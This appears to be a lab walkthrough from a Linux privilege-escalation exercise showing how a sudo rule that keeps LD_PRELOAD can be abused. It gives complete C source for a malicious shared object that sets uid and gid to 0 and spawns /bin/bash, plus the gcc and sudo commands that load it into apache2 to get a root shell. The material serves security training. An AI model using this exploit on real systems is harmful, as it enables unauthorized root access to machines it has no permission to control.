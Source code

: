 **Detection**

Linux VM

1. In command prompt type: **sudo -l**

![[Pasted image 20240601215259.png]]

2. From the output, notice that the **LD_PRELOAD** environment variable is intact.

**Exploitation**

1. Open a text editor and type:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```


2. Save the file as x.c

3. In command prompt type:

```
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
```

4. In command prompt type:

```
sudo LD_PRELOAD=/tmp/x.so apache2
```

5. In command prompt type: 
```
id
```

![[Pasted image 20240601215801.png]]

Answer the questions below

Click 'Completed' once you have successfully elevated the machine
